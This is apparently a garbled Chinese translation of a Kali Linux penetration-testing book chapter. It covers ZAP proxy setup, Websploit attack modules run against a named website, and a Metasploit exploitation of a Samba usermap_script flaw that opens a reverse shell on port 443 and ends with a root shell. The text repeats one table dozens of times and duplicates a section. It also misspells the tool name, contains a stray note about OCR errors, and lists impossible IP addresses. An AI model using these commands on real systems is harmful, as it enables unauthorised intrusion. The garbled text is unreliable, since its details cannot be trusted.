

保存 CA 文件后，点击 **OK**（确定）并打开浏览器。对于 Firefox，进入 **Edit**（编辑） | **Preferences**（选项）并点击 **Advanced**（高级）标签页。点击 **Encryption**（加密）子标签并点击 **View Certificates**（查看证书）。点击 **Import**（导入）并选择你在 Zaproxy 中生成的证书（*.cer 文件）。Firefox 将询问你是否信任此新的 **Certificate Authority**（证书颁发机构）。勾选所有三个选项，即对网站、电子邮件用户和软件开发者信任。点击 **OK**。



下一步是将 Firefox 设置为通过 Zaproxy 代理所有流量。方法是进入 Edit（编辑），Preferences（选项），选择 Advanced（高级）标签，然后选择 Network（网络）标签。点击 Configure（配置）按钮，点击 Manual proxy configuration（手动代理配置），输入 localhost 和端口 8080（这是 Zaproxy 的默认端口）。勾选 Use this proxy server for all protocols（所有协议使用此代理服务器）旁边的框框并点击 OK。下面的截图演示了此配置：



打开 Zaproxy，你会在左侧看到一个 Sites（站点）窗口。当你使用 Firefox 浏览互联网时，该窗口会填充内容。你可以在右窗口查看每个页面的所有请求和响应。Zaproxy 提供了每个网页使用的所有资源的直观视图。

你也可以通过进入 quick start（快速开始）窗口并在 URL to attack 处输入网站来对网站进行针对性评估。下面的截图是 Zaproxy 正在对 **www.thesecurityblogger.com** 进行扫描。



Zaproxy 将对目标进行爬虫遍历，以识别与目标相关链接并扫描漏洞。要查看漏洞，点击 **Alerts**（警告）标签页。

> 注意，Zapxy 默认不进行自动身份验证。如果启用了默认设置，使用自动扫描所有登录请求都会失败。

你可以使用 Zaprry 设置自动登录，或者你必须在启用 Zaprry 的情况下手动登录网站，告诉 Zaprry 登录和注销请求的位置并启用自动登录功能。GET 请求将出现在 Sites 窗口中，你必须在 Tabs 标签页下通过右键点击连接来高亮登录和注销响应，点击 Flag as Content（标记为内容）并选择是登录还是注销。



工具栏上会出现一个带有棕色线条的图标代表身份验证。点击该图标以启用身份验证，以便 Zaprry 在执行目标的自动化任务时能够自动登录任何身份请求。此功能对于自动配置需要身份验证的网站非常有帮助。


Zapry 在 Help（帮助） | Check for updates（检查更新）下有一个市场，提供了可以添加到 Zapry 军械库的其他功能。

| 市场扩展插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 市场扩展插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 市场扩展插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 市场扩展插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 市场扩展插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

| 插件 | 状态 | 标识 | 描述 | 更新 |
| :--- | :--- | :--- | :--- | :--- |
| Release | Fuzzli | Fuzzli | 可用于 ... 的 Fuzzli v09 文件 | 2 |
| Beta | BeanConsole | | 由 BeanScanner 提供 | |

... 等， Websploit 是一个用于扫描和分析远程系统以发现漏洞的开源项目。

img/df1fdcde66c92c1fef83bd651dd5ffe3_112.png)

访问 Websploit，进入 Web Applications | Web Application Fuzzers 并选择 websploit。将弹终端窗口并显示 Websploit 横幅。通过输入 `show modules` 可以查看所有可用模块以及运行特定模块所需的参数。

| 网络模块 | 描述 |
| :--- | :--- |
| network/arp_dos | ARP 缓存拒绝服务攻击 |
| network/mfod | 愤怒指头攻击 |
| network/mite | 间人攻击 |
| network/algit | 遗在中间的攻击 |
| network/webkiller | TCP 杀死攻击 |
| network/fakeupdate | 使用 DNS 欺骗的伪更新攻击 |
| network/fakeap | 伪造接入点 |

| 漏洞模块 | 描述 |
| :--- | :--- |
| exploit/autopwn | Metasploit 自动破解服务 |
| exploit/browser_autopwn | Metasploit 浏览器自动破解服务 |
| exploit/java_applet | Java 攻击（使用 HTML） |

| 无线模块 | 描述 |
| :--- | :--- |
| wifi/jammer | WiFi 干扰器 |
| wifi/dos | WiFi DoS 攻击 |

输入 `USE` 后跟你想要的模块并填写执行所需的条件。例如，要运行 webkiller 模块，输入 `use network/webkiller` 并使用 `SET TARGET` 命令填写攻击目标。输入 `RUN` 执行模块。

```
wsf > use network/webkiller
wsf:Webkiller > set TARGET http://www.thesecurityblogger.com
TARGET => http://www.thesecurityblogger.com
wsf:Webkiller > RUN
```


## 漏洞利用

如果渗透测试人员在目标侦察（Reconnaissance）阶段投入了适当的时间和资源，最终将获得一个可能存在漏洞的目标列表。下一步是根据每个目标对你任务的价值进行排序，估算利用潜在漏洞所需的工作量，并判断执行攻击的相关风险。Kali 中提供的漏洞和利用工具是 Web 服务器侦察期间识别和利用漏洞的理想选择。

## Metasploit

Metasploit 框架是用于服务器端攻击最流行的工具之一，被认为是渗透测试人员最有用的工具之一。由 HD Moore 于 2003 年创建。它既被用作合法的渗透测试工具，也是攻击者用于对系统进行未经授权利用的工具。

有很多资源专门教授如何使用 Metasploit 框架。在书中我们将探讨如何使用 Metasploit 对潜在的 Web 应用进行服务器端利用测试。

> 注意：确保 Postgres SQL 和 Metasploit 服务已启动。你可以在终端窗口中以 root 身份输入 `service postgres start` 和 `service metasploit start`。

第一步是打开控制台并输入 `msconsole` 来启动 Metasploit。`msconsole` 是启动 Metasploit 最流行的方式。它提供了一个访问整个 Metasploit 框架的用户界面。`help` 和 `show` 等基本命令允许你在 Metasploit 中进行导航。

> 注意，还有其他启动 Metasploit 的方法，例如 `msfgui`（基于 GUI）和 `msfcli`（基于命令行）。

除了 Metasploit 命令外，`msconsole` 还允许你调用底层的操作系统命令，如 `ping` 或 `nmap`。这很有帮助，因为它允许攻击者在不离开控制台的情况下执行常规任务。

在第一步中，我们将使用 `nmap` 扫描本地网络。结果将通过 XML 文件自动添加到 Metasploit 中。

## 第3 章

我们使用的命令是：

```
nmap -n -oX my.xml network
```

```
msf > nmap -n -oX my.xml 172.16.189.0/24
[*] exec: nmap -n -oX my.xml 172.16.189.0/24
```

我们使用创建的 XML 文件将 nmap 的结果导入 Metasploit。我们通过执行以下命令来实现：

```
db_import my.xml
```

快速检查主机命令，显示我们的导入成功了，Metasploit 现在拥有了 nmap 数据。



我们还使用 `services` 命令查看 Metasploit 内的可用服务。这是服务命令的一个示例：

| address | port | protocol | name | os | os_flavor | os_sp | purpose |
|---|---|---|---|---|---|---|---|
| 172.16.189.1 | 22 | tcp | | | | | open |
| 172.16.189.1 | 80 | tcp | | | | | open |
| 172.16.189.1 | 443 | tcp | ssl | | | | open |
| 172.16.189.256 | 256 | tcp | | | | | open |
| 172.16.189.1 | 1720 | tcp | | | | | open |
| 172.16.189.443 | 443 | tcp | https | | | | open |
| 172.16.189.1 | 900 | tcp | | | | | open |
| 172.16.189.1 | 264 | tcp | | | | | open |
| 172.16.189.11 | 111 | tcp | rpcbind | | | | open |
| 172.16.189.21 | 21 | tcp | ftp | | | | open |
| 172.16.189.21 | 23 | tcp | telnet | | | | open |
| 172.16.189.25 | 25 | tcp | smtp | | | | open |
| 172.16.189.37 | 37 | tcp | amqp | | | | open |
| 172.16.189.1 | 80 | tcp | http | | | | open |
| 172.16.189.131 | 134 | tcp | netbios | | | | open |
| 172.16.189.131 | 445 | tcp | microsoft-ds | | | | open |
| 172.16.189.131 | 5432 | tcp | postgres | | | | open |
| 172.16.189.131 | 8009 | tcp | ajp | | | | open |
| 172.16.189.131 | 8188 | tcp | unknown | | | | open |

## 服务器端攻击

你可以使用 `db_nmap` 一步完成完成 nmap 扫描并将 XML 文件导入 Metasploit。在接下来的示例中，我们正在使用 `db_nmap` 扫描一个主机。

```
msf > db nmap -n -A 172.16.189.131
```

通过执行 `hosts` 和 `services` 命令，我们可以验证 Metasploit 数据库中是否有相关信息。

| host | port | proto | name | state | info |
|---|---|---|---|---|
| 172.16.189.131 | 21 | tcp | ftp | open | ProFTPD 1.3.1 |
| 172.16.189.131 | 22 | tcp | ssh | open | OpenSSH 4.7p1 Debian 2.0 |
| 172.16.189.131 | 23 | tcp | telnet | open | Linux telnet |
| 172.16.189.131 | 25 | tcp | smtp | open | Postfix smtpd |
| 172.16.189.131 | 53 | tcp | domain | open | |
| 172.16.189.131 | 80 | tcp | mysql | open | Apache http 2.2.8 (Ubuntu) |
| 172.16.189.131 | 139 | tcp | samba | open | Samba 3.X workgroup: WORKGROUP |
| 172.16.189.131 | 445 | tcp | microsoft-ds | open | MySQL 5.0.51a-3ubuntu5 |
| 172.16.189.131 | 5432 | tcp | postgresql | open | PostgreSQL DB 8.3.0 - 8.37 |
| 172.16.189.131 | 8009 | tcp | ajp3 | open | Apache Jserv Protocol v1.3 |
| 172.16.189.131 | 8180 | tcp | http | open | Apache Tomcat/Coyote JSP engine 1.1 |

`services` 命令揭示我们正在使用 Samba 文件共享。看看我们是否可以搜索漏洞并利用它。需要注意的是，虽然在这个实例中我们攻击的是一个真实的服务器，但我们并不需要利用 Web 漏洞。攻击者将利用 Web 服务器上运行的所有软件进行访问。

我们看到了几个 Samba 漏洞。它们也有排名。我们将使用 `usermap_script` 漏洞。

## 第3 章

（等待，OCR 文本似乎在这里重复或跳转，根据提供的片段继续）

我们使用的命令是：

```
nmap -n -oX my.xml network
```

```
msf > nmap -n -oX my.xml 172.16.189.0/24
[*] exec: nmap -n -oX my.xml 172.16.189.0/24
```

我们使用创建的 XML 文件将 nmap 的结果导入 Metasploit。我们通过执行命令来实现：

```
db_import my.xml
```

快速检查主机命令显示我们的导入成功了，Metasploit 现在拥有了 nmap 数据。

我们还使用 `services` 命令查看 Metasploit 内的可用服务。这是服务命令的一个示例：

| address | port | protocol | name | os | os_flavor | os_sp | purpose |
|---|---|---|---|---|---|---|---|
| 172.16.189.1 | 22 | tcp | | | | | open |
| 172.16.189.1 | 80 | tcp | | | | | open |
| 172.16.189.1 | 443 | tcp | ssl | | | | open |
| 172.16.189.256 | 256 | tcp | | | | | open |
| 172.16.189.1 | 1720 | tcp | | | | | open |
| 172.16.189.443 | 443 | tcp | https | | | | open |
| 172.16.189.1 | 900 | tcp | | | | | open |
| 172.16.189.1 | 264 | tcp | | | | | open |
| 172.16.189.11 | 111 | tcp | rpcbind | | | | open |
| 172.16.189.21 | 21 | tcp | ftp | | | | open |
| 172.16.189.21 | 23 | tcp | telnet | | | | open |
| 172.16.189.25 | 25 | tcp | smtp | | | | open |
| 172.16.189.37 | 37 | tcp | amqp | | | | open |
| 172.16.189.1 | 80 | tcp | http | | | | open |
| 172.16.189.131 | 134 | tcp | netbios | | | | open |
| 172.16.189.131 | 445 | tcp | microsoft-ds | | | | open |
| 172.16.189.131 | 5432 | tcp | postgres | | | | open |
| 172.16.189.131 | 8009 | tcp | ajp | | | | open |
| 172.16.189.131 | 8188 | tcp | unknown | | | | open |

## 服务器端攻击

你可以使用 `db_nmap` 一步完成完成 nmap 扫描并将 XML 文件导入 Metasploit。在接下来的示例中，我们正在使用 `db_nmap` 扫描一个主机。

```
msf > db nmap -n -A 172.16.189.131
```

通过执行 `hosts` 和 `services` 命令，我们可以验证 Metasploit 数据库中是否有相关信息。

| host | port | proto | name | state | info |
|---|---|---|---|---|---|
| 172.16.189.131 | 21 | tcp | ftp | open | ProFTPD 1.3.1 |
| 172.16.189.131 | 22 | tcp | ssh | open | OpenSSH 4.7p1 Debian 2.0 |
| 172.16.189.131 | 23 | tcp | telnet | open | Linux telnet |
| 172.16.189.131 | 25 | tcp | smtp | open | Postfix smtpd |
| 172.16.189.131 | 53 | tcp | domain | open | |
| 172.16.189.131 | 80 | tcp | mysql | open | Apache http 2.2.8 (Ubuntu) |
| 172.16.189.131 | 139 | tcp | samba | open | Samba 3.X workgroup: WORKGROUP |
| 172.16.189.131 | 445 | tcp | microsoft-ds | open | MySQL 5.0.51a-3ubuntu5 |
| 172.16.189.131 | 5432 | tcp | postgresql | open | PostgreSQL DB 8.3.0 - 8.37 |
| 172.16.189.131 | 8009 | tcp | ajp3 | open | Apache Jserv Protocol v1.3 |
| 172.16.189.131 | 8180 | tcp | http | open | Apache Tomcat/Coyote JSP engine 1.1 |

`services` 命令揭示我们正在使用 Samba 文件共享。看看我们是否可以搜索漏洞并利用它。需要注意的是，虽然在这个实例中我们攻击的是一个真实的服务器，但我们并不需要利用 Web 漏洞。攻击者将利用 Web 服务器上运行的所有软件进行访问。

我们看到了几个 Samba 漏洞。它们也有排名。我们将使用 `usermap_script` 漏洞。


一旦设置了负载（payload），我们可以再次发布 `show options` 命令来验证特定于负载的选项。

```
cmd/unix/bind_perl
cmd/unix/bind_perl_ipv6
cmd/unix/bind_ruby
cmd/unix/bind_perl_ipv6
cmd/unix/generic
cmd/unix/reverse
tcp (telnet)
cmd/unix/reverse_netcat
cmd/unix/reverse_ruby
cmd/unix/reverse_python
msf exploit(usermcript) > set PAYLOAD cmd/unix/reverse
PAYLOAD => cmd/unix/reverse
msf exploit(usermcript) > show options
```

| 正常的 Unix Command Shell, Bind TCP (via P) |
| :--- |
| 正常的 Unix Command Shell, Bind TCP (via p) |
| 正常的 Unix Command Shell, Bind TCP (via R) |
| 正常的 Unix Command Shell, Bind TCP (via R) |
| 正常的 Unix Command Shell, 通用命令执行 |
| 正常的 Unix Command Shell, 双反反 |
| 正常的 Unix Command Shell, 反向 TCP (vi) |
| 正常的 Unix Command Shell, 反向 TCP (vi) |

我们可以看到这个特定的负载正要求我们设置 `LHOST` 和 `LPORT`。`LHOST` 是本地主机或你的 Metasploit 攻击机。该漏洞会让远程主机连接到托管 Metasploit 的系统，远程主机需要知道你的 IP 地址是什么。

此外，我们还需要设置远程主机与 Metasploit 通信的端口。许多企业环境使用防火墙或路由器限制出站端口。最佳实践是使用常用端口，例如 443 端口，因为它通常保留用于 SSL 流量，而大多数公司允许此类流量出站。此外，发现将 443 作为大多数攻击的 `LPORT` 可以让我们绕过组织可能部署的内部代理工具。

| RHOST 172.16.189.131 yes 目标地址 |
| RPORT 139 yes 目标端口 |
| 负载选项 (cmd/unix/reverse): |
| 名称 当前设置 必须 描述 |
| LHOST yes 监听地址 |
| LPORT 4444 yes 监听端口 |
| 漏洞目标: |
| 0 自动 |
| msf exploit(usermcript) > set LHOST 172.16.189.55 |
| msf exploit(usermcript) > set LPORT 443 |
| msf exploit(usermcript) > exploit: |

## 服务端攻击

当我们设置好选项后，可以输入 `exploit` 来运行攻击。当漏洞成功运行时，你将连接到远程服务器。你可以运行任何命令，在这个示例中，这个特定的漏洞提供了 root 权限。root 意味着对目标远程服务器的完全访问权限。

```
msf exploit(userm_script) > set LHOST 172.16.189.5
LHOST => 172.16.189.5
msf exploit(userm_script) > set LPORT 443
LPORT => 443
msf exploit(userm_script) > exploit
```

- [* 启动反向处理程序
- [* 接受了第一个客户端连接...
- [* 接受了第二个客户端连接...
- [* 命令: echo BySs63Katb6fiyQ;
- [* 正在写入 socket A
- [* 正在写入 socket B
- [* 正在从 sockets 读取
- [* 正在从 socket 读取
- [* B: "BySs63Katb6fiyQ\n"
- [* 匹配中:
- [* A 正在输入...
- [* 命令会话 1 已打开 (172.16.189.5:443 -> 172.16.189.131:45720) 时间 2023-04-06 15:14:05 -0500
whoami
root
如需 http://www.metasploit.com/ 上查看可用选项。

Metasploit 框架中提供了各种漏洞和负载选项。请确保在 http://www.metasploit.com/ 上查看可用选项。

## w3af


w3af（Web Application Attack and Audit Framework 的缩写）是一个开源 Web 应用程序安全扫描和利用工具。可以在 Web Application Assessment（Web 应用评估） | Web Vulnerability Scanners（Web漏洞扫描器）下选择 w3af 进行访问。

